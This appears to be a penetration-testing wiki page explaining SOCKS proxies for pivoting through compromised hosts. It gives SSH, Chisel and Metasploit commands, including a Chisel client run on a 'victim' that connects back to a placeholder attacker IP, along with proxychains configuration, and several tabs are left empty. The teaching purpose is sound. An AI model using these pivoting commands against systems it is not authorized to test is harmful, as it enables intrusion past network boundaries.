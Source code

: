# 🛠️ SOCKS proxy

## Theory

SOCKS (SOCKet Secure) is a network protocol that allows users to route network traffic to a server on a client's behalf. SOCKS is between the application and the transport layer of the OSI model.

This is especially useful for penetration testing engagements where a target is hiding behind one or multiple firewalls. A compromised server connected to two networks can be used as a SOCKS proxy server to pivot from a network to another.

In short, a SOCKS proxy can relay TCP and UDP connections and hence help bypass network segmentation. It's sort a dynamic [port forwarding](port-forwarding.md) technique.

## Practice

There are two types of dynamic port forwarding used during penetration testing engagements.

* **Dynamic port forwarding**: tunnel the whole attacker's network traffic (instead of only one port) through a remote machine.
* **Reverse dynamic port forwarding**: tunnel the whole network traffic from a remote machine through the attacker's machine.

### Basic server setup

{% hint style="info" %}
While setting up port forwarding, it's important to remember that non-admin users can only open ports above 1024.
{% endhint %}

In practice, there are many ways to turn a controlled machine into a SOCKS proxy server.

{% tabs %}
{% tab title="SSH commands" %}
One of the most easy is by relying on SSH, however, it requires to have an SSH server running on the controlled machine and a valid account. The tester needs to open an SSH connection to the machine that should be turned into a SOCKS proxy, and supply the `-D` option along with the port to use for tunneling. The command can also be used with `-N` option to make sure no command gets executed after the SSH session is opened.

```bash
ssh -N -D $PORT $CONTROLLED_TARGET
```

Once the ssh command exits successful (or once a session opens) the tester can then proceed to [the usage part](socks-proxy.md#usage).&#x20;

A reverse dynamic port forwarding can be also put in place to tunnel a machine's traffic through the attacker machine. It is implemented entirely in the client (i.e. the server does not need to be updated) ([since OpenSSH 7.6](https://www.openssh.com/txt/release-7.6)).

```bash
ssh -N -R $PORT $CONTROLLED_TARGET
```
{% endtab %}

{% tab title="Chisel" %}
[Chisel](https://github.com/jpillora/chisel) is a standalone binary for pivoting on Linux and Windows systems.

Working on a server/client, the binary simply needs to be uploaded on the victim host and executed as server on the attacker machine.

```bash
# attacker
chisel server --reverse --socks5 -p $PORT

# victim
chisel client $ATTACKER_MACHINE_IP:$ATTACKER_MACHINE_PORT R:socks
```
{% endtab %}

{% tab title="SSH config" %}

{% endtab %}

{% tab title="Metasploit" %}
A meterpreter session can be taken advantage of by setting up a SOCKS proxy with the appropriate module.

The first steps consists in creating a route, from a meterpreter shell to the target

```bash
meterpreter > run autoroute -s 10.11.1.0/24
```

The session can then be put in background and, the SOCKS server can be created.

```bash
msf > use auxiliary/server/socks_proxy
msf > set SRVPORT $PORT
msf > set VERSION 4a
msf > run
```
{% endtab %}

{% tab title="Cobalt Strike" %}

{% endtab %}

{% tab title="proxychains" %}

{% endtab %}

{% tab title="3proxy" %}

{% endtab %}

{% tab title="plink" %}

{% endtab %}
{% endtabs %}

### Basic client usage

Once the SOCKS proxy server is set up, network traffic can be tunneled through with [proxychains-ng](https://github.com/rofl0r/proxychains-ng) (C), a tool still maintained and more advanced based on the original [proxychains](https://github.com/haad/proxychains) (that is not maintained anymore). The port in use by the SOCKS proxy should be supplied in the configuration file (`/etc/proxychains.conf`) like in the following examples.

```bash
# type    ip    port    [user    pass]
socks5    192.168.67.78    1080    lamer    secret
socks4    192.168.11.49    1080
http    192.168.89.33    8080    justu    hidden
http    192.168.39.93    8080
```

### Chaining proxies

In certain scenarios, SOCKS proxies can be chained. This can easily be used with [proxychains](socks-proxy.md#client-usage). In the following example, SSH is used to turn compromised machines into SOCKS proxy servers.

![](<../../.gitbook/assets/multi-port-forwarding-Dynamic Port Forwarding.png>)

![Setting up the SOCKS proxy servers (with SSH)](<../../.gitbook/assets/carbon(3) (1).png>)

![Setting up the SOCKS proxy client (proxychains)](<../../.gitbook/assets/carbon(1) (1).png>)

![Attacking the target through the chain of SOCKS proxies](<../../.gitbook/assets/carbon(4) (1).png>)

